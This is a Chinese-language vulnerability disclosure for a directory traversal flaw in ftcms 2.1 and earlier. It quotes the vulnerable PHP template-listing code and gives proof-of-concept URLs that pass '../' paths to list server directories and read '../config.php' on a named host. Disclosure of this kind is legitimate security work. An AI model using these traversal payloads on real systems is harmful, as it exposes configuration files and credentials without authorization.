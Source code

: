 # ftcms存在目录遍历漏洞

供应商：http://www.ftcms.cn/

软件下载链接：http://www.ftcms.cn/skin/ftcms_v2.1.zip

影响版本：ftcms<=2.1

## 1.漏洞分析

此目录遍历漏洞原理是使用后台模板修改函数造成的。接下老，根据代码分析它是如何引起的。

首先，找到模板并修改文件代码。文件位置为admin/controllers/tp.php

```text
对应请求链接为
http://ft.rapoo.top/admin/index.php/tp/file_lists/?style=template&tp=default
```

数据库配置写入的相应方法是file_edit

```php
	//文件列表
	public  function file_lists(){
		     
			 $this->load->helper('file');//加载文件辅助函数
			 
	          $data['style'] = isset($_GET['style']) && trim($_GET['style']) ? trim($_GET['style']) : '';
			  $data['tp']=$_GET['tp'];
	  	      if($data['style']=='css'){
			       $dir="../skin/template/".$data['tp']."/";
				   $data['dir']="根目录/skin/template/".$data['tp']."/";
		      }elseif($data['style']=='template'){
			       $dir="../application/views/".$data['tp']."/";
				   $data['dir']="根目录/application/views/".$data['tp']."/";
			   }
			
	          $data['list']=get_filenames($dir,ture);//获取所有文件列表

              $this->load->vars('data',$data);
		
		      $this->load->view($this->router->class.'/file_lists');
       
     }
```

![image](https://user-images.githubusercontent.com/54017627/168746459-1549906a-d394-4149-8df4-fb22f36f2a07.png)

首先，将使用帮助类中的文件帮助程序函数

![image](https://user-images.githubusercontent.com/54017627/168746499-4f0fc7ff-09c6-4320-bd2b-522b483fcafb.png)

首先，判断两个样式参数是否在 get 请求中设置。如果是这样，请使用 trim 函数删除空格，否则它将为空。然后直接从 get 请求中获取 TP 参数。此参数尚未经过过滤和处理，这也为后续漏洞利用铺平了道路

![image](https://user-images.githubusercontent.com/54017627/168746537-ad0cfa58-1611-465e-97f4-df45fe56e3e5.png)

检查样式的值以确定是修改 CSS 文件还是模板文件。您可以随意选择

![image](https://user-images.githubusercontent.com/54017627/168746590-318b92fc-6bec-4616-afcd-4c3c205f193f.png)

然后调用get_文件名函数列出指定目录中的文件 

get_filenames函数位于帮助类中。让我们进入并分析它

![image](https://user-images.githubusercontent.com/54017627/168746672-e875f828-0f8b-402e-a4ba-23f024f01808.png)

首先，我们来看看函数的参数，$source_ Dir 表示原始路径，可以是绝对路径或相对路径，$include_ 路径的默认值为 false，默认值为 false$_ 默认值为 false

![image](https://user-images.githubusercontent.com/54017627/168746716-57bc259b-5e35-4d93-907c-d6e578fd8255.png)

首先，定义一个空数组，该数组应用于存储获取的文件名

![image](https://user-images.githubusercontent.com/54017627/168746760-5e6250a6-9fc4-4ff8-a920-94ba2ad50c4d.png)

打开指定的目录并读取其内容

![image](https://user-images.githubusercontent.com/54017627/168746796-1aeac72d-4c81-4f98-a569-1b3c82f75b2e.png)

因为$_递归默认为false，所以这里的代码会执行，也就是我们传入的路径会被处理得到真正的绝对路径，也就是说，我们可以使用/跳转到目录

![image](https://user-images.githubusercontent.com/54017627/168746850-20975843-7aa6-48cf-b5aa-3912f053378d.png)

然后，如果当前路径是文件夹，则以递归方式读取指定目录中的所有文件

![image](https://user-images.githubusercontent.com/54017627/168746926-2fd9ca26-6969-494b-b96c-c86fca882244.png)

然后将获得的文件路径分配给 $_filedata

![image](https://user-images.githubusercontent.com/54017627/168746968-562f5267-6777-4b1a-b621-f1196231fddb.png)

最后，读取文件内容显示在视图中

最终的 POC 如下所示

```text
http://ft.rapoo.top/admin/index.php/tp/file_lists/?style=template&tp=../../
```

## 2.漏洞复现

### 2.1登录

![image](https://user-images.githubusercontent.com/54017627/168747128-3aea3655-dea8-4427-81ce-1b3ce01a8279.png)

### 2.2请求POC

```text
http://ft.rapoo.top/admin/index.php/tp/file_lists/?style=template&tp=../../http://ft.rapoo.top/admin/index.php/tp/file_edit/?style=template&tp=default&file=../config.php
```

![image](https://user-images.githubusercontent.com/54017627/168747323-1fd92337-1f8c-47b7-aaa8-cc12da917177.png)

